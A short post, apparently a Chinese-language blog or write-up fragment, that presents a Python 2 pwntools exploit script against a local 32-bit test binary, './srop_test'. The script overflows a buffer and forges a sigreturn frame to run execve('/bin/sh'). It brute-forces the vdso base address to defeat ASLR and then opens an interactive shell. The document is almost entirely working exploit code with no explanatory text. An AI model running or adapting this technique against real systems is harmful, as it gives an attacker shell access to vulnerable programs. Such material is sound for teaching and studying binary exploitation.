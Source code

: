 以下是我的利用脚本：

```
from pwn import *
import random
binsh_addr = 0x804a024
bss_addr = 0x804a02e
vdso_range = range(0xf7700000, 0xf7800000, 0x1000)
def main():
    global p
    debug = 1
    if debug:
        #context.level_log = "debug"
        context.arch = "i386"
        p = process('./srop_test')
    else:
        pass
    
    global vdso_addr
    vdso_addr = random.choice(vdso_range)
    payload = 'a' * 0x10c
    frame = SigreturnFrame(kernel = "i386")
    frame.eax = 0xb
    frame.ebx = binsh_addr
    frame.ecx = 0
    frame.edx = 0
    frame.eip = vdso_addr + 0x416  #address of int 80h
    frame.esp = bss_addr  
    frame.ebp = bss_addr  
    frame.gs = 0x63
    frame.cs = 0x23
    frame.es = 0x2b
    frame.ds = 0x2b
    frame.ss = 0x2b
    
    ret_addr = vdso_addr + 0x411  #address of sigreturn syscall
    
    #print payload
    
    payload += p32(ret_addr) + str(frame)
    p.recvuntil("input something you want: n")
    p.sendline(payload)
    sleep(1)
    p.sendline("echo pwned!")
    r = p.recvuntil("pwned!")
    if r != "pwned!":
        raise Exception("Failed!")
    return
    
if __name__ == "__main__":
    global p, vdso_addr
    i = 1
    while True:
        print "nTry %d" % i
        try:
            main()
        except Exception as e:
            #print e
            p.close()
            i += 1
            continue
        print "vdso_addr: " + hex(vdso_addr)
        p.interactive()
        break
```